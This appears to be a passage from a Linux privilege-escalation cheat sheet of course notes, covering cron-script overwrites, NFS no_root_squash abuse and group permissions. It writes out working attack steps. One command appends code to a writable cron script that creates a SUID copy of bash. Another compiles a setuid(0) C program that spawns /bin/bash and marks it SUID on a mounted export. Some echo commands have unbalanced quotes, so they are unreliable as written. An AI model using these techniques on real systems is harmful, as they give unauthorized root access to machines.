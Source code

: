 
### *Cron File Overwrites*

*Overwrite / append a script used in a crontask with malicious code if we have rw access to it.*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash >> <PATH OF OVERWRITEABLE FILE>/<OW FILE>.sh
 
 ## [NFS ROOT SQUASHING]
 
*Look for mountable drives that could be used to privesc*

> **Victim machine**

Hunt for folders

    cat /etc/export

Let's take the example of a `/tmp` directory with the `no_root_squash` option present.

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

> **Host machine**
 
1. Create a directory where you will mount the `/tmp` directory.
 
    `mount -o rw,vers=2 <IP>:/tmp <PATH TO NEWLY CREATED DIRECTORY>`
    
2. Create a malicious payload inside the mounted directory

```
echo 'echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > <PATH TO MOUNTED DIRECTORY>/x.c    
gcc <PATH TO FILE>/x.c -o <PATH TO FILE>/x
chmod +s <PATH TO FILE>/x
 ```
 
> **Victim machine**

Execute the created file. We will have the same rights as the owner of the mountable `no_root_squash` directory.

 ## [GROUPS]
 
 *Can we exploit group permissions?*
 
    id

This is a different approach and will vary depending on the machine. However, the general concept to take away is to look for unfamiliar groups or groups that are known to give to much power. We can, and should, always use [GTFOBins](https://gtfobins.github.io/) in order to enumerate through these groups. 

This section was created because the LPE course showed a privesc technique using Docker.


# Fin
